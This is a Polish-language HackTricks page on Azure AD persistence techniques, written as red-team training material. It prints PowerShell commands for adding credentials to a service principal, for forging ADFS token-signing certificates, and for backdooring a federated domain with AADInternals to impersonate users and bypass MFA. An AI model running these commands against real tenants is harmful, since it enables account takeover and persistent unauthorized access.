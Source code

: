 # Az - Wytrwałość

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

### Nielegalne Udzielenie Zgody

Domyślnie każdy użytkownik może zarejestrować aplikację w Azure AD. Możesz zarejestrować aplikację (tylko dla docelowego najemcy), która wymaga uprawnień o wysokim wpływie z zgodą administratora (zatwierdź ją, jeśli jesteś administratorem) - na przykład wysyłanie wiadomości w imieniu użytkownika, zarządzanie rolami itp. To pozwoli nam **przeprowadzić ataki phishingowe**, które byłyby bardzo **owocne** w przypadku sukcesu.

Co więcej, możesz także zaakceptować tę aplikację za pomocą swojego użytkownika jako sposób na utrzymanie dostępu do niej.

### Aplikacje i Podmioty Usług

Dzięki uprawnieniom Administratora aplikacji, GA lub niestandardowej roli z uprawnieniami microsoft.directory/applications/credentials/update, możemy dodać poświadczenia (sekret lub certyfikat) do istniejącej aplikacji.

Możliwe jest **celowanie w aplikację z wysokimi uprawnieniami** lub **dodanie nowej aplikacji** z wysokimi uprawnieniami.

Interesującą rolą do dodania do aplikacji byłaby **Rola administratora autoryzacji uprzywilejowanej**, ponieważ pozwala ona na **zresetowanie hasła** Globalnych Administratorów.

Ta technika również pozwala na **obejście MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Dla uwierzytelniania opartego na certyfikatach
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federacja - Certyfikat podpisywania tokenów

Mając **uprawnienia DA** w lokalnym AD, można utworzyć i zaimportować **nowe certyfikaty podpisywania tokenów** oraz **certyfikaty deszyfrowania tokenów**, które mają bardzo długą ważność. Pozwoli nam to **zalogować się jako dowolny użytkownik**, którego ImmutableID znamy.

**Uruchom** poniższą komendę jako **DA na serwerach ADFS**, aby utworzyć nowe certyfikaty (domyślne hasło to 'AADInternals'), dodać je do ADFS, wyłączyć automatyczne odnawianie i zrestartować usługę:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Następnie zaktualizuj informacje o certyfikacie za pomocą Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federacja - Zaufana domena

Posiadając uprawnienia GA w dzierżawie, można **dodać nową domenę** (musi zostać zweryfikowana), skonfigurować jej typ uwierzytelniania na Federated oraz skonfigurować domenę do **zaufania określonemu certyfikatowi** (any.sts w poniższej komendzie) i wydawcy:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Odnośniki

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Naucz się i praktykuj Hacking w AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naucz się i praktykuj Hacking w GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępnij sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}
